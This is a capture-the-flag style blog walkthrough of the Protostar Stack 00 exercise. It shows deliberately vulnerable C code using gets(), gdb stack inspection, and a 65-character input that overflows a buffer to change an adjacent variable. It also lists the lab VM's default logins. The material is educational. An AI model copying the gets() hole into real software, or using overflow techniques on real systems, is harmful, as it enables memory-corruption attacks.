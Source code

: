 ```yaml
---
layout:     post
title:      "Protostar - Stack 00"
description: "Introductionary challenge supposed to teach about the concept of memory in computer systems, especially the stack."
date:       2018-03-31 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


Welcome to the first challenge from Protostar series brought to us by [Exploit Exercises](https://exploit-exercises.com/).

### Solution

At first we are given a source code of the challenge.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
{% endhighlight %}

As we can see, our goal is to modify the value of `modified` variable, which is for now equal to `0`. But before the declaration of this variable, we have a character buffer 64 elements in size.

Just after these two variables, we have `gets()` function that will copy anything that we enter into the buffer. From `man` pages, we can remeber that this function should not be used.

{% highlight text %}
Never use gets().  Because it is impossible to tell without knowing the  data  in
advance how many characters gets() will read, and because gets() will continue to
store characters past the end of the buffer, it is extremely  dangerous  to  use.
It has been used to break computer security.  Use fgets() instead.
{% endhighlight %}

With that information, let's jump and `ssh` into the the protostar machine.

{% highlight bash %}
> $ ssh user@192.168.0.234                                                                


    PPPP  RRRR   OOO  TTTTT  OOO   SSSS TTTTT   A   RRRR  
    P   P R   R O   O   T   O   O S       T    A A  R   R
    PPPP  RRRR  O   O   T   O   O  SSS    T   AAAAA RRRR  
    P     R  R  O   O   T   O   O     S   T   A   A R  R  
    P     R   R  OOO    T    OOO  SSSS    T   A   A R   R

          http://exploit-exercises.com/protostar                                                 

Welcome to Protostar. To log in, you may use the user / user account.
When you need to use the root account, you can login as root / godmode.

For level descriptions / further help, please see the above url.

user@192.168.0.234's password:
Linux (none) 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar 31 12:18:37 2018
{% endhighlight %}

Now let's move into the directory containing challenge binaries.

{% highlight bash %}
$ cd /opt/protostar/bin/
$ ./stack0
asd
Try again?
{% endhighlight %}

Here we can see how the program works in real sitation. It takes the input from the user, and as the `modified` variable was not modified, it prints `Try again?` string. But as we know that the `buffer` can contain only `64` elements, let's print an absurd number of `a` letters passing them into the binary.

{% highlight bash %}
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
Segmentation fault
{% endhighlight %}

And here it is, we modified the `modified` variable. But why did it happen? We can view the binary using tools such as `gdb` in order to see how their internal system works.

{% highlight bash %}
$ gdb ./stack0
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) set disassembly-flavor intel
{% endhighlight %}

Firstly, we have to set the assembly syntax into the Intel one, as for me it's easier to read. After that we're ready to analyze the assembly code of the `main()` function.

{% highlight bash %}
(gdb) disas main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave  
0x08048434 <main+64>:	ret    
End of assembler dump.
{% endhighlight %}

As we know that the buffer is getting overfilled just after the `gets()` function, we can put a breakpoint just after this function at `0x08048411` address. That way, the flow of the program will stop and we will be able to freely look around registers and memory used at that particular moment.

{% highlight bash %}
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
aaaaaaaaaaaaaa

Breakpoint 1, main (argc=1, argv=0xbffffd64) at stack0/stack0.c:13
13	stack0/stack0.c: No such file or directory.
	in stack0/stack0.c
{% endhighlight %}

This time, I'm running the binary with small input, such that will not overfill the buffer. That will show you a difference between this run, and run using large input.

Together with the fact that the variables are stored in stack, we will have to view it. In order to do it, we can use this command `x/40x $esp`. Let's analyze it. Letters `x` means that the output will be printed in the hexadecimal format, `40` is the number of elements that we want to print and `$esp` is the name of the register we want to use.

But why `ESP` register? Simply because it stores the address of the most recent value pushed on the stack, which in our case are the variables.

{% highlight bash %}
(gdb) x/40x $esp
  0xbffffc50:	0xbffffc6c	0x00000001	0xb7fff8f8	0xb7f0186e
  0xbffffc60:	0xb7fd7ff4	0xb7ec6165	0xbffffc78	0x61616161
->0xbffffc70:	0x61616161	0x61616161	0xbf006161	0x080482e8
  0xbffffc80:	0xb7ff1040	0x08049620	0xbffffcb8	0x08048469
  0xbffffc90:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffffcb8
->0xbffffca0:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
  0xbffffcb0:	0x08048450	0x00000000	0xbffffd38	0xb7eadc76
  0xbffffcc0:	0x00000001	0xbffffd64	0xbffffd6c	0xb7fe1848
  0xbffffcd0:	0xbffffd20	0xffffffff	0xb7ffeff4	0x0804824b
  0xbffffce0:	0x00000001	0xbffffd20	0xb7ff0626	0xb7fffab0
{% endhighlight %}

See the big number of `0x61` digits stored in memory? If we'll take a look at the ASCII chart, we'll know that it's the value of the `a` letters, so that what we enetered. On the other hand, we can also see place where there are only `0x00` values, which will probably mean that that's the place where our `modified` variable is stored.

Now we can run this binary once again, but this time with the input consisting of 65 `a` letters.

{% highlight python %}
>>> print('a' * 65)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
{% endhighlight%}

{% highlight bash %}
(gdb) r    
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, main (argc=1, argv=0xbffffd64) at stack0/stack0.c:13
13	stack0/stack0.c: No such file or directory.
	in stack0/stack0.c
(gdb) x/40x $esp
0xbffffc50:	0xbffffc6c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffffc60:	0xb7fd7ff4	0xb7ec6165	0xbffffc78	0x61616161
0xbffffc70:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffffc80:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffffc90:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffffca0:	0x61616161	0x61616161	0x61616161	0x00000061
0xbffffcb0:	0x08048450	0x00000000	0xbffffd38	0xb7eadc76
0xbffffcc0:	0x00000001	0xbffffd64	0xbffffd6c	0xb7fe1848
0xbffffcd0:	0xbffffd20	0xffffffff	0xb7ffeff4	0x0804824b
0xbffffce0:	0x00000001	0xbffffd20	0xb7ff0626	0xb7fffab0
(gdb) c
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
{% endhighlight%}

Here we can see that the place where `0x00` values were, now is overwritten with single `0x61` value, and since that we know it's modified. Doing this changed the flow of the program, resulting in our success.
